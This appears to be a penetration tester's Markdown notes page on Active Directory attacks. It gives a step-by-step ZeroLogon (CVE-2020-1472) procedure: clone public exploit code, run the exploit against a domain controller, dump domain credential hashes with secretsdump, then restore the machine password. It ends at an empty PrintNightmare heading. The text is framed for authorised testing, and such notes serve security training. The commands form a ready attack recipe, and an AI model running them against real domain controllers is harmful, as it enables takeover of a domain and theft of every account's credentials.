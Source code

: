 # Additional Active Directory Attacks

## Abusing ZeroLogon

- Make sure to restore if you use this attack, otherwise the domain controller will be broken. You can also use the tester and tell the client in your report (to avoid breaking anything).
- Clone https://github.com/dirkjanm/CVE-2020-1472
- https://github.com/SecuraBV/CVE-2020-1472 to copy the tester file **`zerologon_tester.py`**
- All we need for the zero logon tester is the name of the Domain Controller (HYDRA-DC) and the IP address: `python3 zerologon_tester.py <DOMAIN CONTROLLER> <DC-IP>`
- Next, to run the exploit all we need to do is use: `python3 cve-2020-1472-exploit.py <DOMAIN CONTROLLER> <DC-IP>`
- To check, use secretsdump: `secretsdump.py -just-dc <DOMAIN>/<DOMAIN CONTROLLER>\$@<DC-IP>`
- Now to restore, first copy the administrator hash and `secretsdump.py administrator@<DC-IP> -hash <hash>`. Copy the entire `plain_password_hex`.
- Back in the exploit folder run `python3 restorepassword.py <DOMAIN>/<DOMAIN CONTROLLER>@<DOMAIN CONTROLLER> -target-ip <DC-IP> -hexpass <password hex>`

## PrintNightmare (CVE-2021-1675) Walkthrough
